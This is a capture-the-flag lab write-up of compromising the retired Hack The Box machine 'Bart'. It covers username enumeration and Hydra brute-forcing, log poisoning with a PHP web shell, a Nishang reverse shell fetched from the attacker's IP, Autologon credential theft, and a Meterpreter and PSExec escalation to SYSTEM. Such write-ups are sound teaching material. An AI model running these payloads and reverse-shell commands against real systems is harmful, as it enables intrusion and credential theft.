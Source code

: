 # Bart

This is the write-up for the box Bart that got retired at the 14th July 2018.
My IP address was 10.10.14.19 while I did this.

Let's put this in our hosts file:
```markdown
10.10.10.81    bart.htb
```

## Enumeration

Starting with a Nmap scan:

```markdown
nmap -sC -sV -o nmap/bart.nmap 10.10.10.81
```

```markdown
PORT   STATE SERVICE VERSION
80/tcp open  http    Microsoft IIS httpd 10.0
| http-methods:
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/10.0
|_http-title: Did not follow redirect to http://forum.bart.htb/
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```

## Checking HTTP (Port 80)

The web page wants to automatically forward to _forum.bart.htb_ so after putting that into the _/etc/hosts_ file, the forwarding works.
It is built with **WordPress**, but all the default WordPress pages in the source are removed.

There are some potential usernames on the homepage, when looking at the mail addresses of _"Our Team"_ and one in the _"New employee"_ news:
- Samantha Brown _(s.brown)_
- Daniel Simmons _(d.simmons)_
- Robert Hilton _(r.hilton)_
- Daniella Lamborghini _(d.lamborghini)_

In the HTML source is a block of code commented out:
```markdown
(...)
<div class="name">Harvey Potter</div>
<div class="pos">Developer@BART</div>
(...)
<li><a class="mail" href="mailto:h.potter@bart.htb" target="_blank"><i class="fa">M</i></a></li>
(...)
```

The user _h.potter_ is the developer of the website and another potential username.

Lets search for hidden directories on the IP with **Gobuster**:
```markdown
gobuster -u http://10.10.10.81 dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -s 204,301,302,307
```

It finds the directory _/forum_ which is the site from before and the directory _/monitor_ with a login form:

![Monitor login form](bart_web-1.png)

### Getting Access to Development Tools

When using the _"Forgot password"_ feature, it asks for a username and after providing an incorrect one, it responds with _"The provided username could not be found"_ which can be used as a way to enumerate valid usernames.

After trying different variations of the developers name _(Harvey Potter)_, the username _harvey_ exists as the login form responded that it will send an email to reset the password.
As the request is protected with a **CSRF-token**, brute-forcing the password with tools is difficult.
In this case manually trying out different easy passwords work and the password of the user is his last name:
> potter

The login wants to forward to _monitor.bart.htb_, so also putting that into the _/etc/hosts_ file and the forwarding works.

On _Servers_ there is one entry for _internal-01.bart.htb_ that has to be put into the _/etc/hosts_ file to get to it:

![Server monitor](bart_web-2.png)

It forwards to another login form with the title _"[DEV] Internal Chat Login Form"_:

![Chat login form](bart_web-3.png)

The default credentials from before don't work, but luckily this is not protected with a **CSRF-token** and can be brute-forced with **Hydra**:
```markdown
hydra -l harvey -P /usr/share/wordlists/metasploit/common_roots.txt internal-01.bart.htb http-form-post "/simple_chat/login.php:uname=^USER^&passwd=^PASS^&submit=Login:Password"
```

After a while the password for the username _harvey_ in this login form is found:
> Password1

It forwards to a chat program:

![Chat application](bart_web-4.png)

In the HTML source is a path in which this program seems to log into:
```markdown
(...)
xhr.open('GET', 'http://internal-01.bart.htb/log/log.php?filename=log.txt&username=harvey', true);
(...)
```

It is possible to browse to this path, but it shows nothing.
By changing the _filename_ parameter to _log.php_, the log file is readable via a **Local File Inclusion** and it logs our User-Agent:
```markdown
http://internal-01.bart.htb/log/log.php?filename=log.php&username=harvey
```
```markdown
[2021-01-01 21:25:29] - harvey - Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0
```

### Log Poisoning

Lets send this to a proxy tool like **Burpsuite** to modify the HTTP request.
By changing our User-Agent to PHP code, it is possible to execute arbitrary code:
```markdown
GET /log/log.php?filename=log.php&username=harvey HTTP/1.1
Host: internal-01.bart.htb
User-Agent: <?php system($_REQUEST['test']); ?>
```
```markdown
# Response

system(): Cannot execute a blank command in
C:\inetpub\wwwroot\internal-01\log\log.php</b>
```

This is known as **Log Poisoning** and now it accepts code with the _test_ parameter, we created:
```markdown
GET /log/log.php?filename=log.php&username=harvey&test=whoami HTTP/1.1
Host: internal-01.bart.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0
```
```markdown
# Response

[2021-01-01 21:31:54] - harvey - nt authority\iusr
```

It shows the result of `whoami`, so command execution works and uploading files and getting a reverse shell connection should be possible.
The _shell.ps1_ file is the script _Invoke-PowerShellTcp.ps1_ from the **Nishang scripts** with the following line at the bottom:
```markdown
Invoke-PowerShellTcp -Reverse -IPAddress 10.10.14.19 -Port 9001
```

Uploading the file:
```markdown
GET /log/log.php?filename=log.php&username=harvey&test=powershell "IEX(New-Object Net.WebClient).downloadString('http://10.10.14.19/shell.ps1')"
```

After URL-encoding the command and sending the request, the listener on my IP and port 9001 starts a reverse shell connection as _NT Authority\iusr_.

This box is a 64-bit machine but our process runs as a 32-bit process:
```markdown
\[environment]::Is64BitOperatingSystem
True
\[environment]::Is64BitProcess
False
```

Lets run **PowerShell from SysNative** to get a 64-bit process:
```markdown
GET /log/log.php?filename=log.php&username=harvey&test=C:\Windows\SysNative\WindowsPowerShell\v1.0\powershell "IEX(New-Object Net.WebClient).downloadString('http://10.10.14.19/shell.ps1')"
```

After URL-encoding the command and sending the request, the listener on my IP and port 9001 starts a reverse shell connection as _NT Authority\iusr_ in a 64-bit process.

## Privilege Escalation

To get an attack surface, it is recommended to run any **Windows Enumeration Script**:
```powershell
IEX(New-Object Net.WebClient).downloadString('http://10.10.14.19/PowerUp.ps1')

Invoke-AllChecks
```

It found credentials in the **Autologon** registry entry:
```markdown
[*] Checking for Autologon credentials in registry...

DefaultDomainName    : DESKTOP-7I3S68E
DefaultUserName      : Administrator
DefaultPassword      : 3130438f31186fbaf962f407711faddb
```

Even though this looks like a **MD5 hash**, it is not, it is the actual password for the machine.
If we could run `RunAs`, it would be possible to execute commands with higher privileges.

To connect to the box through **PSExec**, the port 445 (SMB) has to be open. This can be done by starting a **Meterpreter session** and forward the port to our local client.

Setup in **Metasploit**:
```markdown
use exploit/windows/smb/smb_delivery

set SHARE MyShare
set SRVHOST 10.10.14.19
set LHOST tun0
set LPORT 9002

exploit -j
```

Running the DLL file on the box to get a **Meterpreter** session:
```markdown
rundll32.exe \\10.10.14.19\MyShare\test.dll,0
```

Port forwarding port 445 (SMB):
```markdown
sessions -i 1

meterpreter > portfwd add -l 445 -p 445 -r 127.0.0.1
```

Running **Impackets PSexec** to connect to the box with the credentials:
```markdown
impacket-psexec Administrator:3130438f31186fbaf962f407711faddb@127.0.0.1
```

After running this, a shell session as _NT Authority\SYSTEM_ starts!
